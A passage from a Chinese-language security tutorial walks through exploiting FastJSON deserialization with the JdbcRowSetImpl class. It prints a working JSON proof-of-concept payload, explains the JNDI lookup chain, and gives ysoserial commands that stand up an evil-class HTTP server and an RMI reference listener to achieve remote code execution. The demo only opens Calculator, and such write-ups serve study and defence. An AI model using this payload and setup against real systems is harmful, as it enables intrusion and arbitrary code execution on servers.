 ### <a class="reference-link" name="%E6%A1%88%E4%BE%8B%E4%BA%8C%EF%BC%9AFastJSON%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96POC%20JdbcRowSetImpl%E7%B1%BB"></a>案例二：FastJSON反序列化POC JdbcRowSetImpl类

fastjson由于`[@type](https://github.com/type)`的存在，在受影响的版本中，其可以对任意指定的对象进行反序列化，根据规则自动调用setter/getter来达到实例还原的目的。首先来看一下POC

```
`{`"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/obj","autoCommit":true`}`
```

这里的关键在于autoCommit，来看一下JdbcRowSetImpl的setAutoCommit函数

[![](https://p5.ssl.qhimg.com/t014fd3026995d12edb.png)](https://p5.ssl.qhimg.com/t014fd3026995d12edb.png)

这里如果conn为null的话，会调用connect函数，看一下connect函数

[![](https://p3.ssl.qhimg.com/t019efadbfc80eeb8cb.png)](https://p3.ssl.qhimg.com/t019efadbfc80eeb8cb.png)

看到这里用JNDI进行数据库连接，并且由于fastjson的特性dataSource是可控的，这就意味着我们可以控制lookup的参数，并向恶意的server发起JNDI连接。根据前文说的原理，我们可以使得主机执行任意代码。



## 0x03 环境复现

### <a class="reference-link" name="%E6%94%B9%E9%80%A0JRMPListener"></a>改造JRMPListener

由于JNDI底层用的都是RMI的东西，所以我们要建立一个绑定了Reference的RMI服务，可以直接改改JRMPListener。

在RMI部分曾经分析过JRMPListener，其返回了ExceptionalReturn，使得构造好的Exception在Client反序列化执行命令。而对于绑定Reference，我们需要修改ExceptionalReturn为NormalReturn并将payloadObject改为ReferenceWrapper

[![](https://p5.ssl.qhimg.com/t01ecc7d9dd7c6fb9cb.png)](https://p5.ssl.qhimg.com/t01ecc7d9dd7c6fb9cb.png)

payloadObject改为ReferenceWrapper

[![](https://p4.ssl.qhimg.com/t0176c8eed28a21ec58.png)](https://p4.ssl.qhimg.com/t0176c8eed28a21ec58.png)

但是在实际测试时，发现Client请求后不能完全退出。其实我们也可以直接用上面的例子

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t018cabe4b8b531b8f4.png)

不过这里就获取不到是否有访问进来，根据实际的环境取舍吧XD

改造后的已更新到[github](https://github.com/wh1t3p1g/ysoserial)上

```
// 开启挂载了evil class文件的HTTP Server
java -cp target/ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.PayloadHTTPServer 80 EvilObj "open /System/Applications/Calculator.app"

// 开启RMI Reference Listener
java -cp target/ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.RMIRefListener 1099 EvilObj http://localhost/

// 或者使用RMIRefListener2，集合了上面两个步骤
java -cp target/ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.RMIRefListener2 localhost:1099 80 EvilObj "open /System/Applications/Calculator.app"
```
